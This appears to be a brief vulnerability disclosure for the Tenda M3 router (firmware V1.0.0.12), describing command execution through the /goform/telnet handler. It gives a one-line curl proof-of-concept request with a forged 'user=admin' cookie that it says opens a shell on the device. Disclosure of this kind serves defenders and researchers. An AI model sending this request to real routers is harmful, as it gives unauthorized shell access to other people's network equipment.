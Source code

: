 # Tenda M3 Command Execution

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 V1.0.0.12(4856) devices. An HTTP request within the handler function of the /goform/telnet  route. This could lead to  Shell Metacharacters.

![1](./1.jpg)



When we send packets, the router will be shell

```
curl -i -X POST http://192.168.10.1/goform/telnet -d aa=aa --cookie "user=admin"
```





![poc](./poc.jpg)

